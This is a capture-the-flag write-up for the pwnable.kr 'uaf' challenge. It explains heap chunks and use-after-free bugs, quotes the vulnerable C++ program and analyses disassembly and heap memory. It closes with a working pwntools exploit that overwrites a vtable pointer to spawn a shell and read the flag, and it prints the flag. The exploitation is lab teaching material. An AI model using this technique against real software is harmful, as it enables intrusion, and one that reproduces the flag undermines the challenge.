 # uaf

## Description

uaf - 8 pt

> Mommy, what is Use After Free bug? <br> <br>
> ssh uaf@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### The heap

The heap is a region of memory that is dynamically allocated and deallocated by the program. We can allocate memory on the heap by calling `malloc` and free it by calling `free`. Note that the memory allocated by malloc is always aligned to 8 bytes.

The memory in the heap is stored in chunks. Each chunk has a header, that contains information about the chunk (such as it's size), and the data itself. for example, here is a chunk of size 0x20:

```
0x614ed4:       0x00000000      0x00000021      0x00000000      0x00000614
0x614ee4:       0x00000000      0x2b63ba16      0x4f1d11e4      0x00614ec8
```

The first 2 words are the header, and the rest is the data. It's important to note that the last two bits of the size is have special meaning. Most importantly, the least signifcant bit is used to indicate whether the last chunk is free or not. If it's 1, it's free, if it's 0, it's allocated. 

When a chunk is freed, it's saved in a (dounle) linked list. When we allocate memory on the heap, the allocator will search that list for a chunk that is big enough to hold the requested size. If it finds one, it will remove it from the list and return it to the user. If it doesn't find one, it will allocate a new chunk from the end of the heap.

#### Use After Free

Use After Free (UAF) is a vulnerability that occurs when we use a pointer to a chunk after it has been freed. 

A bug like this can be used in many ways. For example, if we allocate a new chunk of the same size as the freed chunk, it will be allocated in the same place as the freed chunk. Thus, we'll be able to control the data that the pointer points to, and possibly take control of the program.

### Exploit

Let's check out the source code:

```c
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

The program creates a `Man` and a `Woman` object, and then gives us a menu to choose from. The first option calls the `introduce` function of both objects. The second option allocates a chunk of memory of a size we choose, and reads data from a file into it. The third option frees both objects.

As the name of the challenge suggest, we'll need to use a UAF bug to get the flag. Let's take a look at the objects in the heap. First, we're going to need to find their addresses. Here are the relevant parts of the disassembly of the `main` function:

```asm
0000000000400ec4 <main>:
  ...
  400f13:	e8 4c 03 00 00       	call   401264 <_ZN3ManC1ESsi>
  ...
  400f71:	e8 92 03 00 00       	call   401308 <_ZN5WomanC1ESsi>
  ...
```

Using gdb to break at the calls to the constructors, we get that the `Man` object's **chunk** starts at `0x614ed4` and the `Woman` object's **chunk** starts at `0x614f24`. Knowing that, we can take a look at the heap:

```
0x614ed4:       0x00000000      0x00000021      0x00000000      0x00401570
0x614ee4:       0x00000000      0x00000019      0x00000000      0x00614ec8

... 

0x614f24:       0x00000000      0x00000021      0x00000000      0x00401550
0x614f34:       0x00000000      0x00000015      0x00000000      0x00614f18
```

Since the classes are fairly similar, let's focus on the `Man` object. The first 2 words of the chunk are the header. Then, we have the `vtable` pointer, which points to the `vtable` of the `Man` class. After that we have the `age` and `name` fields. The `name` field is a pointer to a string, which is stored in the next chunk.

With some debugging, we can figure out that whenever we ask for the `1` option, the program calls `introduce` by using the `vtable` pointers to go to the function that's in offset `0x8` from the start of the `vtable`. 

```asm
  400fcd:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
  400fd1:	48 8b 00             	mov    (%rax),%rax
  400fd4:	48 83 c0 08          	add    $0x8,%rax
  400fd8:	48 8b 10             	mov    (%rax),%rdx
  400fdb:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
  400fdf:	48 89 c7             	mov    %rax,%rdi
  400fe2:	ff d2                	call   *%rdx
```
Also, it appears that the first address of the `vtable` is the address of the `give_shell`, and unsurprisingly, the address at offset `0x8` is the address of the `introduce` function. 

```
0x401570 <_ZTV3Man+16>: 0x0040117a

0x40117a <_ZN5Human10give_shellEv>:     0xe5894855
```

```
0x401578 <_ZTV3Man+24>: 0x004012d2

0x4012d2 <_ZN3Man9introduceEv>: 0xe5894855
```

So, if we manage to change the `vtable` pointer to point `0x8` bytes back, the offset `0x8` will make it point to the `give_shell` function.

It seems that the `Man` and `Woman` objects are each `0x18` bytes long. So, if we'll use the `3`rd option to free them, and then allocate 2 chunks of `0x18` bytes, those chunks will be allocated in the same place as the `Man` and `Woman` objects.

Since the `2`nd option not only gives us the choice of how many bytes to allocate, but also the choice of which file to read into the allocated memory, we can use it to allocate 2 `0x18` byte chunks, that look like this:

```
0x00000000      0x00000021      0x00000000      0x00401568
0x00000000      0x00000000      0x00000000      0x00000000
```

And then, when we choose the `1`st option, the program will dereference the function pointer `0x00401568 + 0x8` which points to the `give_shell` function. 

```python
from pwn import *

ssh = ssh(host='pwnable.kr', port=2222, user='uaf', password='guest')

ssh.mkdir('/tmp/a')
ssh.touch('/tmp/a/exploit')
ssh.upload_data('\x68\x15\x40\x00' + '\x00'*4*3, '/tmp/a/exploit')

p = ssh.process(['./uaf', '24', '/tmp/a/exploit'])
p.sendline(b'3\n2\n2\n1')

p.sendline(b'cat flag')
p.interactive()
```

```
yay_f1ag_aft3r_pwning
```
